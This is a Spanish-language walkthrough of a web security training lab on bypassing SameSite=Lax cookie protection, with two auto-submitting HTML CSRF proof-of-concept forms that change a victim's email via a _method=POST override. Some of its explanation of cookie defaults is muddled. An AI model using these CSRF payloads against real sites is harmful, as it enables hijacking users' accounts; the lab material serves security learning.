




SameSite es un mecanismo de seguridad del navegador que determina cuándo se incluyen las cookies de un sitio web en las solicitudes procedentes de otros sitios web. Las restricciones de cookies de SameSite ofrecen protección parcial contra diversos ataques entre sitios, como CSRF, fugas entre sitios y algunos exploits CORS.

Desde 2021, Chrome aplica Laxrestricciones de SameSite por defecto si el sitio web que emite la cookie no establece explícitamente su propio nivel de restricción. Se trata de un estándar propuesto, y prevemos que otros navegadores importantes adoptarán este comportamiento en el futuro. Por lo tanto, es fundamental comprender a fondo cómo funcionan estas restricciones y cómo se pueden eludir para realizar pruebas exhaustivas de vectores de ataque entre sitios.

## LAB



Observamos  que tenemos un apartado para cambiar el correo del usuario.



Además, verificando los valores de la cookie observamos que el valor de `SameSite`es de `None` por lo que va por defecto con el valor de `Lax`



Teniendo en cuenta lo anterior e interceptando la solicitud de cambio de email, se puede construir nuestra POC. 

```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="GET" action="https://0aec003403c506a480496cca0006006a.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned1%40pwned.net">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

Pero al probar esta no funciona debido a que `SameSite` al tener el valor por defecto de `Lax` solo acepta el envió de cookies por el método `GET`



Cuando una cookie tiene el atributo `SameSite=Lax`, el navegador solo la enviará en solicitudes cross-site que parezcan una navegación legítima del usuario, como cuando se usa `location.href`, se hace clic en un enlace `<a>`, o se produce una redirección 302. En cambio, no se enviará si la solicitud es un `POST`, si viene desde elementos como ``, `<iframe>`, `fetch()` o si es un `GET` en segundo plano (como cargar una imagen). Por eso, para burlar esta restricción, los ataques CSRF modernos pueden usar un `GET` con el parámetro `_method=POST`: así, el navegador piensa que es una navegación segura y envía la cookie, pero el servidor interpreta la acción como un `POST` real y ejecuta la operación sensible.

por lo que debemos cambiar nuestro valores en nuestro POC

```html
<html>
	<body>
		<h1>Form CSRF PoC</h1>
		<form action="https://0aec003403c506a480496cca0006006a.web-security-academy.net/my-account/change-email" method="GET" >
			<input type="hidden" name="_method" value="POST"> 
			<input type="hidden" name="email" value="pwned2%40pwned.net">
			<input type="submit" value="Submit Request">
		</form>
<script>
    document.forms[0].submit();
</script>
	</body>
</html>
```

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.